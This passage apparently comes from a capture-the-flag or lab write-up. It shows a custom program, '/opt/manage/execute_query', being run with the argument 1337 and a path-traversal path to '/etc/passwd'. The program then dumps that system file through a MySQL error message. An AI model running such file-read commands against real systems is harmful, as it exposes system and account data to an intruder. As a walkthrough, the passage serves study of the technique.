 Finally, we exploited this program by running it with the argument `1337`, followed by the path to the `/etc/passwd` file, which resulted in the program to display the content of the `/etc/passwd` file. 

```shell
bash-5.1$ /opt/manage/execute_query 1337 ../../../etc/passwd
mysql: [Warning] Using a password on the command line interface can be insecure.
--------------
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
jack:x:1000:1000:jack:/home/jack:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:114:120:MySQL Server,,,:/nonexistent:/bin/false
_rpc:x:115:65534::/run/rpcbind:/usr/sbin/nologin
statd:x:116:65534::/var/lib/nfs:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
--------------

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
' at line 1
bash-5.1$ 
```

